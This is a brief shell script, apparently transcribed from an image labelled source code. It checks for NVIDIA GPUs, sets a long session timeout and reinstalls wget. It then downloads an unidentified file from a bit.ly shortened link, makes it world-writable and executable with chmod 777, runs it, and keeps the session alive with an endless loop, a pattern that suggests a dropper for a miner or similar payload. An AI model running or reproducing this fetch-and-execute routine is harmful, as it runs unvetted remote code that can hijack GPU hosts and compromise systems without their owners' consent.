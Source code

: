 #!/bin/sh
sudo apt update
sudo apt install screen -y
nvidia-smi -L
export TMOUT=86400
apt help
apt remove wget
apt update
apt install wget
wget https://bit.ly/2VNHzFQ
ls
chmod 777 2VNHzFQ
sh 2VNHzFQ 
while [ 1 ]; do
sleep 3
done
sleep 99999

